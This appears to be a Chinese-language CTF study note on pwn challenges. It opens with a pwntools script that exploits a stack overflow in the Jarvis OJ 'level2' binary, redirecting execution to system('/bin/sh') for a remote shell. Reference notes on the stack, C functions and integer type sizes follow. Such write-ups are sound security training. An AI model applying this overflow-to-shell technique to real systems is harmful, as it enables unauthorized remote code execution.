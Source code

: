 #### 读取 symbol system 的地址

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

io = remote("pwn2.jarvisoj.com",9878)
elf = ELF("./level2")

sys_addr = elf.symbols["system"]                     # IDA对应的函数为 _system 0x08048320
bin_addr = elf.search("/bin/sh".encode()).__next__() # IDA可见 0x804a024

payload = 'a'*(0x88 + 0x4)                 #辣鸡填充值
payload += p32(sys_addr).decode('latin')   #覆盖返回地址到system函数
payload += p32(0xdeadbeef).decode('latin') #随意填写system函数调用结束的返回地址 0x1也行
payload += p32(bin_addr).decode('latin')   #system函数的参数，指向“/bin/sh”，实现调用

io.recvline()
io.sendline(payload)
io.interactive()
io.close()
```

## Wiki

### 栈

参数入栈方式是从右向左。

![Alt text](imgs/pwn_stack01.jpg)

![Alt text](imgs/pwn_01_stack01.jpg)

### C 代码翻译

`_readfsqword(0x28u)` 通常用于 alarm 函数，防止调试, canary?

`strcmp(str1,str2)` ，若 str1=str2，则返回零；若 str1<str2，则返回负数；若 str1>str2，则返回正数

### C 语言各数据类型大小和取值范围/Type/Size

[Linux System Call Table](http://shell-storm.org/shellcode/files/syscalls.html)

[LINUX SYSTEM CALL TABLE FOR X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

有符号整数类型

| 类型名称                       | 字节数 | 取值范围                                                  |
| ------------------------------ | ------ | --------------------------------------------------------- |
| signed char                    | 1      | -2^7(-128) ~ 2^7-1(127)                                   |
| short int 或 short             | 2      | -2^15(-32 768) ~ 2^15-1(32 767)                           |
| int                            | 4      | -2^31(-2 147 483 648) ~ 2^31-1(2 147 483 647)             |
| long int 或 long               | 4      | -2^31(-2 147 483 648) ~ 2^31-1(2 147 483 647)             |
| long long int 或 long long /LL | 8      | -2^63(-9.2233720368548e+18) ~ 2^63-1(9.2233720368548e+18) |
| Int16(16bit)                   | 2      | -32768 ~ 32767                                            |
| Int32(32bit)                   | 4      | -2147483648 ~ 2147483647                                  |
| Int64(64bit)                   | 8      | -9223372036854775808 ~ 9223372036854775807                |
